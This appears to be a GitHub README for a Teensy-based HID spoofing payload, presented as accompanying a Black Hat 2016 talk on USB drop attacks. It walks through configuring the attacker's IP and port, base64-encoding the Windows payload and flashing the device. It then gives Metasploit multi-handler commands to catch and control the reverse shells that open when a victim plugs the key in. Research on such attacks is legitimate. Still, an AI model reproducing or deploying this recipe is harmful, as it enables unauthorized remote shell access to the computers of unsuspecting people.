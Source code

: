# HID spoofing multi-OS payload for Teensy

This code allows to create a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OSX.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](https://www.elie.net/publication/does-dropping-usb-drives-really-work) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/malus)

# Environment setup

To get the payload working you need:
1. A Teensy. You can get one from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html) directly
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/malus)

# Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
## Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

## Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.sh** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the *OSX_PAYLOAD_STR* string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.ps** and replace the constant IP and PORT with the one from your server
  4. Compress and encode it with: `cat payload | gzip -c | base64`
  5. Replace the *WIN_PAYLOAD_STR* string in the **payload/payload.c** with the output of the previous command. The *WIN_PAYLOAD_STR* string is in the middle of the Windows payload.

# Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulation your Teensy is ready to go.


# Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

# Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```

